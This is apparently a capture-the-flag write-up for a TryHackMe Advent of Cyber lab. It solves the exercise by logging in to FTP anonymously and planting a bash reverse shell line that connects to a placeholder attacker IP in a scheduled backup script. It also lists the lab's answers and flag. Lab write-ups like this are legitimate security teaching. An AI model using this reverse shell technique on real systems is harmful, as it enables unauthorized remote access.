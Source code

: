 # Day 9 - Anyone can be Santa!

**Date:** 10, December, 2020

**Author:** Dhilip Sanjay S

---
## FTP


## Solutions

### 1) Name the directory on the FTP server that has data accessible by the "anonymous" user
- **Answer:** public
- **Steps to reproduce:**
    - To connect to FTP server - `ftp <MACHINE IP>`.
    - Provide username as `anonymous`.
    - Type `ls` to list the directories. 
    - You'll find that only the **public** directory is accessible.
---

### 2) What script gets executed within this directory?
- **Answer:** backup.sh
---

### 3) What movie did Santa have on his Christmas shopping list?
- **Answer:** The Polar Express
- **Steps to reproduce:**
    - To download the shopping list - `get shoppinglist.txt` 
---

### 4) Re-upload this script to contain malicious data
- **Answer:** THM{even_you_can_be_santa}
- **Steps to reproduce:**
    - To download the backup.sh - `get backup.sh` 
    - Add the following script to the file: 
    ```bash
    bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1
    ```
    - Reupload backup.sh - `put backup.sh`

- **Note:** You must listen to the connection using `netcat`. If you don't know know how to do it, refer Day02. After getting the reverse shell, you can `cat flag.txt` to get the flag.

---
[Back to Advent of Cyber 2](/Advent%20of%20Cyber%202) 